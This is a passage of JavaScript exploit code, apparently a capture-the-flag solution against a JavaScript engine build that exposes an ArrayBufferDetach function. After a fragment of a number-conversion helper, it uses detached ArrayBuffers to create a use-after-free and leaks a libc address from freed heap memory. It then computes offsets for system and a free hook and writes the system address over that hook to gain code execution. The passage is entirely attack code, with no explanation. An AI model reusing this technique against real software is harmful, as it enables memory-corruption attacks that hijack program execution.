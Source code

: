 ```js
            byteView.set(bytes);
            return view[0];
        },

        // Available types.
        int8:    byteView,
        int32:   uint32View,
        float64: float64View
    };
})();



var system_off = 0x4f550
var fh_off = 0x3ed8e8
var fh = 0
var system = 0
var a = new ArrayBuffer(0x350)
var b = new ArrayBuffer(0x350)
var c = new ArrayBuffer(0x350)
var d = new ArrayBuffer(0x350)
var e = new ArrayBuffer(0x350)
var f = new ArrayBuffer(0x350)
var g = new ArrayBuffer(0x350)
var h = new ArrayBuffer(0x350)
var dv = new DataView(a)
var dvv = new DataView(h)
dv.setInt32(16, 0x41424344)
ArrayBufferDetach(b)
ArrayBufferDetach(c)
ArrayBufferDetach(d)
ArrayBufferDetach(e)
ArrayBufferDetach(f)
ArrayBufferDetach(g)
ArrayBufferDetach(a)
ArrayBufferDetach(h)
var r = dvv.getFloat64(128)

r = Int64.fromDouble(r) - 0x3ebca0
fh = r + fh_off
system = r + system_off
console.log(fh)
console.log(fh / 0x100)
dv.setInt8(0, fh)
dv.setInt8(1, fh / 0x100)
dv.setInt8(2, fh / 0x10000)
dv.setInt8(3, fh / 0x1000000)
dv.setInt8(4, fh / 0x100000000)
dv.setInt8(5, fh / 0x10000000000)
dv.setInt8(6, fh / 0x1000000000000)
h = new ArrayBuffer(0x350)
a = new ArrayBuffer(0x350)
dvv = new DataView(a)
dv = new DataView(h)
dvv.setInt8(0, system)
dvv.setInt8(1, system / 0x100)
dvv.setInt8(2, system / 0x10000)
dvv.setInt8(3, system / 0x1000000)
dvv.setInt8(4, system / 0x100000000)
dvv.setInt8(5, system / 0x10000000000)
dvv.setInt8(6, system / 0x1000000000000)


```
